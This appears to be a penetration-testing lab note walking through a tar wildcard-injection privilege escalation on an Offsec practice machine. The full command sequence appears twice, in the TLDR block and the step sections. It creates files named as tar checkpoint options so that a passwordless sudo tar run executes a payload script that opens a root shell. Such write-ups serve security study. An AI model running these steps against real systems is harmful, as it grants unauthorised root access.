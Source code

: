 # tar
- https://gtfobins.github.io/gtfobins/tar/#limited-suid
## TLDR
- `sudo -l` command shows that user **james** can run the following command as root **without a password**: 
- tar has options  which will stop it during processing, allowing for command execution
- we trick ta  by passing these options, with special characters, so they look like files, but  processed like options 
```
echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=sh payload.sh"
echo "/bin/bash" > payload.sh  
chmod +x payload.sh 
sudo /usr/bin/tar -czvf /tmp/backup.tar.gz *
```
## exploit
### What / Why
The `sudo -l` command shows that user **james** can run the following command as root **without a password**:  
**sudo /usr/bin/tar -czvf /tmp/backup.tar.gz ***

- `tar` has a feature that allows it to execute a command when it reaches a certain point in its process. This is done using two options:
	- `--checkpoint=1`: This tells `tar` to trigger an action after processing just **one file**.
	- `--checkpoint-action=exec=<command>`: This allows executing a command when the checkpoint is reached.
- Since James can run `tar` as root, we can abuse the `--checkpoint-action` option to execute **any command** as root.
- We **trick** `tar` into processing these options as filenames. The reason we create **two separate files** is due to **how spaces and special characters are interpreted** in Linux:

--- 
### Spaces in Filenames
1. Spaces in Filenames:
	- The shell interprets spaces as **separators between arguments**.
	- If we tried to create a single file named `--checkpoint=1 --checkpoint-action=exec=/bin/sh`, it would **not work properly** because the shell would treat it as two separate arguments instead of one filename.
2. The `/` Character Issue:
- The `/` character is interpreted as a *directory separator*.
- If we try to create a file like `--checkpoint-action=exec=/bin/sh`, it will not work because the system expects it to be a **file path**, not just a filename.

### Step 1: Create Two Files
We create **two special filenames** so that `tar` interprets them as arguments:

echo "" > ""--checkpoint=1" 
echo "" > "--checkpoint-action=exec=sh payload.sh"

- The first file is named `--checkpoint=1`, which tells `tar` to **trigger an action** after processing one file.
- The second file is named `--checkpoint-action=exec=sh payload.sh`, which tells `tar` to execute `sh payload.sh` as root.

### Step 2: Create a Payload
Next, we create a simple payload script that opens a **root shell**:

echo "/bin/bash" > payload.sh  
chmod +x payload.sh

### Step 3: Run `tar`

Now, when we run:  
sudo /usr/bin/tar -czvf /tmp/backup.tar.gz *

- `tar` will process the files in the current directory.
- Since we **named our files like command-line options**, `tar` will interpret them as real arguments.
- It will **execute** `**sh payload.sh**` **with root privileges**.
- `payload.sh` runs `/bin/bash`, giving us **a root shell**.

----
# Reference

- Checkpoint - Offesec - Practice
- https://systemweakness.com/pg-cockpit-oscp-prep-cc0ff57842f7
---


